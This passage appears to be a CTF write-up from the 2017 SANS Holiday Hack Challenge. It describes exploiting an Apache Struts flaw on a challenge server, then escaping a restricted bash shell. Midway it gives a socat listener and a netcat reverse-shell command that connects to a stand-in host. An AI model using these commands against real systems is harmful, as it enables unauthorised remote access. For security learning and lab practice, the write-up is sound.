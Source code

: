 ![l2s dev struts](/images/2018/01/l2s_dev_struts.png)

The [blog post](https://pen-testing.sans.org/blog/2017/12/05/why-you-need-the-skills-to-tinker-with-publicly-released-exploit-code) referenced in the hint pointed to a customized, weaponized Apache Struts exploit written in Python: https://github.com/chrisjd20/cve-2017-9805.py

Using this exploit code, it's possible point it at the orders.xhtml page on the dev server and get command execution. The one tricky thing about this exploit is that it is "blind" - there's no output returned from the server so it can be difficult to see if it it's working. When I'm faced with a situation like that, one of the easiest techniques is to try to curl a non-existent file from a VPS I control and see if I see anything in the access logs:

![l2s struts curl command](/images/2018/01/l2s_curl_success.png)

Awesome, it's working! Now what I really want is an [interactive shell](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/). I set up a `socat` listener on my VPS:

```
socat tcp-l:4444,reuseaddr -,raw,echo=0,escape=0x07
```

and shot over a PTY shell with netcat using the "script /dev/null" trick (I got lucky guessing that `nc` was installed):

```
nc -c 'SHELL=/bin/bash script -q /dev/null' foobar.example.com 4444
```

And it worked! I now had a bash session* on the vulnerable struts server:

![Socat catching bash](/images/2018/01/l2s_socat_rbash.png)

From my new shell, I cd'd to the webroot `/var/www/html` and found the next page of the Great Book:

![ls webroot](/images/2018/01/l2s_bash_webroot.png)

The second page of the book was in the webroot here: https://l2s.northpolechristmastown.com/GreatBookPage2.pdf

**Alabaster's password**

The next part of the question asked me to find Alabaster's password. To find plaintext passwords on a system, the best tool for the job is [find](https://twitter.com/ropnop/status/877555905105203200). Except `find` didn't work....

![rbash - doh!](/images/2018/01/l2s_rbash.png)

That's when I discovered that I actually had a restricted bash (rbash) shell. Alabaster's entry in `/etc/passwd` had his login shell set to `/bin/rbash`:

```
alabaster_snowball:x:1003:1004:Alabaster Snowball,,,:/home/alabaster_snowball:/bin/rbash
```
But wait...I didn't interactively log in - I executed /bin/bash through a command injection, so that shouldn't matter! Then I saw the reason in `/home/alabaster_snowball/.bashrc`:

```
# HHC
bind 'set disable-completion on'
unset HISTFILE
alias nano="rnano"
alias vim="rvim"
alias vi="rvim"
HOMEDIR=$(mktemp -d /tmp/asnow.XXXXXXXXXXXXXXXXXXXXXXXX)
export PATH="/usr/local/rbin"
cd "$HOMEDIR"
```
Executing `/bin/bash` sourced .bashrc and set my PATH to `/usr/local/rbin`. So it was actually just my PATH that was screwed up. I could still call `/usr/bin/find` just fine.
